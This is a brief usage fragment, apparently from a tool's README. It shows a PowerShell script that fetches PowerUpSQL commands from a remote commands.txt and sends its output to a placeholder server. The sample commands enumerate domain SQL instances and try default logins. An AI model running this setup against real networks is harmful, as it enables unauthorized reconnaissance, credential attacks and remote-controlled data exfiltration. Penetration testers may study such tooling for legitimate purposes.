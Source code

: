 ### Command-line Usage:
```bash
powershell.exe -File script.ps1 --url "http://yourserver.com/output" -c "http://yourserver.com/commands.txt"
```

### Format of `commands.txt`:
The `commands.txt` file can be hosted on the server and contain one PowerUpSQL command per line. For example:
```
Get-SQLInstanceDomain
Get-SQLDomain
Get-SQLServerLoginDefaultPw
```

This setup allows flexibility in modifying the PowerUpSQL commands without changing the script, making it easier to manage.